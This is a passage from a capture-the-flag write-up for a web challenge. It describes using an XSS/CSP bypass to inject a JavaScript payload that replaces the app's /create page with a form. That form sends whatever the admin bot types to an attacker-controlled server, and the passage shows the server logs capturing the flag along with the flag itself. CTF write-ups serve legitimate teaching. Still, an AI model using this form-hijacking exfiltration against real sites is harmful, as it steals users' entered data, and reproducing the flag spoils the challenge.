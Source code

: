(TBH, I'm not sure why this works DOM-wise. I kept trying various start/end
tags until it worked &#128539;)

Then, I served this with `sudo python3 -m http.server 80`, added above paste
in the app and viewed the page in the local browser - and I got the message on
the console!

# Getting the flag

Things get easier now. We have:

*   Arbitrary JS execution
*   ... in a client-side JS framework
*   And an admin bot that has no idea about the app. It just clicks and types
    into whatever the browser is displaying.

The possibilities are endless &#128578; I went with **redefining the `/create` page**,
to render a simple form that sends the flag typed by the bot to the above AWS
server (so that I can see it in the logs). `payload.js` has become:

```javascript
createPage = new SpaPage("/create", `
        <form id="createContent" action="http://X.X.X.X/" method="GET">
            <textarea name="flag" id="textArea"></textarea>
            <button id="submit" type="submit">Send</button>
        </form>
    `);
app.registerPage(createPage);
```

I re-sent the above paste for verification and, on the AWS server, I saw:

```bash
TODO
X.X.X.X - - [04/Jan/2025 16:43:52] "GET /payload.js HTTP/1.1" 200 -
X.X.X.X - - [04/Jan/2025 16:43:58] "GET /?flag=shc2023%7Bthis_is_not_a_flag%7D HTTP/1.1" 200 -

```

Then, repeating all this in a live SHC instance:

```bash
128.140.62.133 - - [04/Jan/2025 16:49:30] "GET /payload.js HTTP/1.1" 200 -
128.140.62.133 - - [04/Jan/2025 16:49:33] "GET /?flag=shc2023%7BT0d4y_1_l34rnt_4_l0t_4b0ut_c5p_a5bb5269fda2%7D HTTP/1.1" 200 -
```

<br>

Yet again, I managed to solve a CSP/XSS/whatever challenge, without actually
understanding these things well &#128539; The trick with arbitrary `form action`
keeps on giving &#128578;

---

## `shc2023{T0d4y_1_l34rnt_4_l0t_4b0ut_c5p_a5bb5269fda2}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
